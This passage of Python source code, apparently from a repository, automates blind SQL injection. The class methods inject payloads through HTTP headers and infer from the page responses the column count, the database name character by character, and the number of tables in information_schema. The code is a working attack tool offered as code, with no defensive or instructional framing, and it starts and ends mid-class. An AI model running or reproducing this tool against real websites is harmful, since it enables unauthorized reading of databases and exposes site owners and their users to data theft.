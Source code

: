 ```python
        self.word_num = 0
        self.get_word_num(table_name,column_names[0])
        self.word_name = []
        self.word_length = []
        for i in range(len(column_names)):
            print(column_names[i])
            self.get_word_length(table_name,column_names[i])
            self.get_word_name(table_name,column_names[i],i)
        
    def get_itsnum(self):
        self.itsnum = 0
        for i in range(1,50):
            self.process('get_itsnum',i,50)
            payload = "1' order by {0}#".format(str(i))
            html = self.s.get(self.url,headers=self.get_headers(payload)).text
            if not self.check(html):
                self.itsnum = i - 1
                break
        if self.itsnum > 0:
            print('\n==>',self.itsnum)
        else:
            print("\ncan not get the itsnum")
    def get_database_length(self):
        self.database_length = 0
        for i in range(1,30):
            self.process('get_database_length',i,30)
            payload = "1' and length(database())={0}#".format(str(i))
            html = self.s.get(self.url,headers=self.get_headers(payload)).text
            if self.check(html):
                self.database_length = i
                break
        if self.database_length > 0:
            print('\n==>',self.database_length)
        else:
            print("\ncan not get the database_length")
    def get_database(self):
        self.database = ''
        for i in range(1,self.database_length+1):
            for j in self.zifuji:
                self.process(str(i) + ' get_database',j,self.database_length+1)
                payload = "1' and ascii(substring(database(),{0},1))={1}#".format(str(i),str(j))
                html = self.s.get(self.url,headers=self.get_headers(payload)).text
                if self.check(html):
                    self.database += chr(j)
                    break
            if len(self.database) != i:
                self.database += '666'
        if len(self.database) > 0:
            print('\n==>',self.database)
        else:
            print("\n can not get the database")
    def get_table_num(self):
        self.table_num = 0
        for i in range(1,30):
            self.process('get_table_num',i,30)
            payload = "1' and (select count(table_name)a from information_schema.tables where table_schema=database() having a={0})#".format(str(i))
            html = self.s.get(self.url,headers=self.get_headers(payload)).text
            if self.check(html):
                self.table_num = i
                break
        if self.table_num > 0:
            print('\n==>',self.table_num)
```